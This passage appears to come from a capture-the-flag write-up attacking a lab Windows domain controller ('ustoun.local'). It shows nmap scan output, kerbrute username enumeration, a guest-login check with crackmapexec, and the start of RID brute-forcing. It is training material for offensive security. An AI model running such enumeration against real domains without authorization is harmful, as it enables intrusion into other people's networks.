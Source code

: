 ```
|       dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=ustoun,DC=local
|       dnsHostName: DC.ustoun.local
|       defaultNamingContext: DC=ustoun,DC=local
|       currentTime: 20210411140012.0Z
|_      configurationNamingContext: CN=Configuration,DC=ustoun,DC=local
445/tcp  open  microsoft-ds?      syn-ack
464/tcp  open  kpasswd5?          syn-ack
593/tcp  open  ncacn_http         syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped         syn-ack
3268/tcp open  ldap               syn-ack Microsoft Windows Active Directory LDAP (Domain: ustoun.local, Site: 
3269/tcp open  tcpwrapped         syn-ack
3389/tcp open  ssl/ms-wbt-server? syn-ack
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
49716/tcp open  msrpc         syn-ack Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

Let's add the DNS computer name  to our `/etc/hosts`.

# Enumerate

We don't have pretty much anything. Let's start with enumerating usernames using kerbrute.

/opt/kerbrute_linux_amd64 userenum --dc dc.ustoun.local -d ustoun.local /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames-dup.txt

```
2021/04/12 23:52:31 >  [+] VALID USERNAME:	 guest@ustoun.local
2021/04/12 23:53:10 >  [+] VALID USERNAME:	 administrator@ustoun.local
```

We have 2 users here. Let's see guest account and see if it is active using crackmapexec.

crackmapexec smb dc.ustoun.local -u 'guest' -p ''

```
SMB         10.10.71.35     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:ustoun.local) (signing:True) (SMBv1:False)
SMB         10.10.71.35     445    DC               [+] ustoun.local\guest: 
```

Let's try rid (Resource Identifier) bruteforcing. 

crackmapexec smb dc.ustoun.local -u 'guest' -p '' --rid-brute
